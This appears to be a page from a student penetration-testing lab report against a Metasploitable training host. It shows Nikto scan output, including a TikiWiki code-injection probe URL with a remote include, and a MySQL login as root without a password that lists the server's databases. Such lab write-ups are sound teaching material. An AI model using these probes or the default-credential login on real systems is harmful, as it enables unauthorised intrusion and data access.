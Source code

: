 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=Bash]
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-40478: /tikiwiki/tiki-graph_formula.php?w=1&h=1&s=1&min=1&max=2&f[]=x.tan.phpinfo()&t=png&title=http://cirt.net/rfiinc.txt?: TikiWiki contains a vulnerability which allows remote attackers to execute arbitrary PHP code.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6474 items checked: 3 error(s) and 23 item(s) reported on remote host
+ End Time:           2016-02-12 14:12:41 (GMT-5) (145 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
\end{lstlisting}

\newpage
\section{Exploitation}
\subsection{Exploits for metasploitable.sait230.ca}

/paragraph{MySQL}
I noticed that port 3306 was open on this host from the reconnaissance phase. This port
is used by mysql. I decided to try to connect to this port using the mysql client and
using the default mysql installation user `root'.

\begin{lstlisting}
root@bt-was:~# mysql -uroot -h metasploitable.sait230.ca
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36239
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2011, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information\_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)

mysql> 

\end{lstlisting}
\end{document}
